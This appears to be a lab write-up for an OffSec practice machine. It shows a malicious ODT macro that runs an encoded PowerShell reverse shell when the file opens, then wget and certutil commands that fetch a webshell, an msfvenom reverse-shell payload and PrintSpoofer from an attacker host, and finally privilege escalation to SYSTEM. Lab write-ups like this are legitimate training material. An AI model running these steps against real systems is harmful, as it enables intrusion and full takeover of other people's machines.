

Host:
```
192.168.212.169
```
# 80

From website:
admin@craft.offsec

There is a file upload


We need an ODT file for exploiting

Now create an odt file 
Then  add the macro:
Tools-> macros->Organise macros-->Basic
Create a macro

```
Sub Main
    Shell("cmd /c powershell -e JABjAGwAaQBlAG4Ad...ABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
End Sub
```
\
Then we can configure it to open on document open:

Tools-->Customise:


Now we can upload the file and get a shell:

Shell:
\

Now we find the files for the web server:

We can put a webshell:
```
wget http://192.168.45.236/shell.php -o shell.php
```
and make a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=3001 -f exe -o shell.exe
```
```
wget http://192.168.45.236/shell.exe -o shell.exe
```

Now we can run it:

Now we get a shell:
\

Now using `whoami /priv`:


We can use PrintSpoofer:
```
certutil -urlcache -f http://192.168.45.236/PrintSpoofer64.exe PrintSpoofer64.exe
```
```
PrintSpoofer.exe -i -c powershell.exe
```
We get a shell as nt authority\system:

